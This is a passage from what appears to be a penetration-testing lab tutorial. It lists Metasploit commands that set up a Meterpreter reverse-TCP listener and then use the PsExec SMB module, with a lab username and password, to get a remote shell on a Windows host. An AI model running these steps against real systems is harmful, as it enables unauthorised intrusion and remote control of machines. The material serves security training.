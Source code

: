 	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`

     ![A screenshot depicts the results of these commands.](Images/runmulti.PNG)	

4. Load the module for PsExec with the following command:

	 - `use exploit/windows/smb/psexec`

5. Set the following options:

	 - set RHOST 172.22.117.20
	 - set SMBUser tstark
	 - set SMBPass Password!
	 - set SMBDomain megacorpone
